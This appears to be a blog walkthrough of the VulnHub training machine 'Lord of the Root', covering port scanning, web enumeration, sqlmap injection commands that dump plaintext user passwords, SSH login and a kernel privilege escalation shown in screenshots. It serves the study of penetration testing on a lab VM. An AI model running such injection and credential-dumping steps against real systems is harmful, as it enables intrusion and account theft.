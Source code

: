 ```yaml
---
title: Load of the Root 1.0.1
categories: [VulnHub]
tags: [PrivEsc, Recon, Kernel Exploit, mysql]
image:
    path: https://www.vulnhub.com/media/img/entry/lotr-00.png
    alt: Load of the Root Machine 👑
---
```


## **Description ⤵️**


💡 [Lord Of The Root: 1.0.1](https://vulnhub.com/entry/lord-of-the-root-101,129/) →

I created this machine to help others learn some basic CTF hacking strategies and some tools. I aimed this machine to be very similar in difficulty to those I was breaking on the OSCP.

This is a boot-to-root machine will not require any guest interaction.

There are two designed methods for privilege escalation.

- 23/09/2015 == v1.0.1
- 22/09/2015 == v1.0

---

If you are having issues with VirtualBox, try the following:

- Downloaded LordOfTheRoot_1.0.1.ova (confirmed file hash)
- Downloaded and installed VMWare ovftool.
- Converted the OVA to OVF using ovftool.
- Modified the OVF using text editor, and did the following:
    
    replaced all references to "ElementName" with "Caption" replaced the single reference to "vmware.sata.ahci" with "AHCI"
    
- Saved the OVF. +Deleted the .mf (Manifest) file. If you do not you get an error when importing, saying the SHA does not match for the OVF (I also tried modifying the hash, but no luck).
- Try import the OVF file, and it should work fine.

Source: https://twitter.com/dooktwit/status/646840273482330112



### **Let’s find the IP Address first >>**

![103-1.png](/Vulnhub-Files/img/Load_of_the_root/103-1.png)

```bash
IP : 10.0.2.23
```
{: .nolineno}

## Port Scan Results ➡️

![104-2.png](/Vulnhub-Files/img/Load_of_the_root/104-2.png)

![104-1.png](/Vulnhub-Files/img/Load_of_the_root/104-1.png)

```bash
OPEN PORTS >
22   SSH
1337 HTTP
```
{: .nolineno}

---

## Web Enumeration ⤵️

![105-1.png](/Vulnhub-Files/img/Load_of_the_root/105-1.png)

![105-2.png](/Vulnhub-Files/img/Load_of_the_root/105-2.png)

![105-3.png](/Vulnhub-Files/img/Load_of_the_root/105-3.png)

```bash
THprM09ETTBOVEl4TUM5cGJtUmxlQzV3YUhBPSBDbG9zZXIh
```
{: .nolineno}

![105-4.png](/Vulnhub-Files/img/Load_of_the_root/105-4.png)

```bash
Closer!
```
{: .nolineno}

![105-5.png](/Vulnhub-Files/img/Load_of_the_root/105-5.png)

![105-6.png](/Vulnhub-Files/img/Load_of_the_root/105-6.png)

Sqlmap →

```bash
commands →
sqlmap -o -u http**://**10.0.2.23**:**1337**/**978345210**/**index.php --form --dbs --l
```
{: .nolineno}

![105-7.png](/Vulnhub-Files/img/Load_of_the_root/105-7.png)

![105-8.png](/Vulnhub-Files/img/Load_of_the_root/105-8.png)

```bash
Command → 
sqlmap -o -u http://10.0.2.23:1337/978345210/index.php --form --dbms m
```
{: .nolineno}

![105-9.png](/Vulnhub-Files/img/Load_of_the_root/105-9.png)

```bash
+----+------------------+----------+

| id | password         | username |

+----+------------------+----------+

| 1  | iwilltakethering | frodo    |

| 2  | MyPreciousR00t   | smeagol  |

| 3  | AndMySword       | aragorn  |

| 4  | AndMyBow         | legolas  |

| 5  | AndMyAxe         | gimli    |

+----+------------------+----------+
```
{: .nolineno}

Now lets try SSH login →

```bash
MyPreciousR00t
```
{: .nolineno}

![106-1.png](/Vulnhub-Files/img/Load_of_the_root/106-1.png)

Now lets check the kernel version →

![106-2.png](/Vulnhub-Files/img/Load_of_the_root/106-2.png)

I found on web →

![106-3.png](/Vulnhub-Files/img/Load_of_the_root/106-3.png)

![106-4.png](/Vulnhub-Files/img/Load_of_the_root/106-4.png)

Let is try it out →

I got it →

![106-5.png](/Vulnhub-Files/img/Load_of_the_root/106-5.png)

Flag.txt →

![106-6.png](/Vulnhub-Files/img/Load_of_the_root/106-6.png)

<hr>
<br>

# **Summery Notes →**
> 💡
> → sqlmap
>
> → post exploit can be done with exploiting kernel or ,
>
> → Buffer Overflow
{: .prompt-tip }

<hr>
